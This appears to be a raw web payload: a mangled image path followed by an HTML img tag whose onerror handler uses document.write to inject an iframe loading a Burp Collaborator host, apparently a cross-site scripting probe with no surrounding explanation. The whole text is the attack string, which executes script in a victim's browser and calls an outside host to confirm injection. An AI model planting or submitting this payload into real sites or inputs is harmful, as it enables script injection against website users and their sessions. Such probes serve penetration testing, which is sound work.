 <img src="xasdasdasd" onerror="document.write('<iframe src=http://txugbmudx0py94lgsyhtzvagi7oxcm.burpcollaborator.net></iframe>')" />
